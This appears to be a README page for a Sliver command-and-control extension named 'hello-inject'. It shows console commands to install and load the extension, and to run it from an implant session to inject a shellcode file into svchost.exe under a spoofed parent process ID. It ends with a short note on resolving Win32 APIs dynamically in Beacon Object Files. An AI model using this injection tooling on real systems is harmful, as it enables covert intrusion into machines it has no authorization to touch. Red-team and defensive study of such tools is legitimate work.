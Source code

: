 ### Install Sliver BOF
Steps include installing and loading the extension (who knows):

```
# install
[server] sliver > extensions install /tmp/hello-inject.tar.gz

[*] Installing extension 'hello-inject' (0.0.0) ... done!

# load
[server] sliver > extensions load /root/.sliver-client/extensions/hello-inject

[*] Added hello-inject command: Sliver extension hello world

[server] sliver > hello-inject -h

Sliver extension hello world

Usage:
======
  hello-inject [flags] pe bin ppid

Args:
=====
  pe    string    Target program
  bin   string    local bin
  ppid  int       PID of desired parent process

Flags:
======
  -h, --help           display help
  -t, --timeout int    command timeout in seconds (default: 60)
```

### Execute Sliver BOF
Within a beacon or session context:

```
[server] sliver (CRUCIAL_BRICK) > hello-inject c:\\windows\\systmem32\\svchost.exe /opt/sliver/SPLENDID_EMERGENCE.bin 4343

[*] Successfully executed hello-inject (coff-loader)
[*] Got output:
pe: c:\windows\systmem32\svchost.exe | bin size: 12681444 | ppid: 4343
```

## Win32 API
The Dynamic Function Resolution (DFR) can be used to to dynamically resolve the API

- declare the API with `DECLSPEC_IMPORT INT WINAPI USER32$MessageBoxW(HWND, LPCWSTR, LPCWSTR, UINT);`
- execute it with `USER32$MessageBoxW(NULL, L"gr33tz", L"Message Box", 0);`
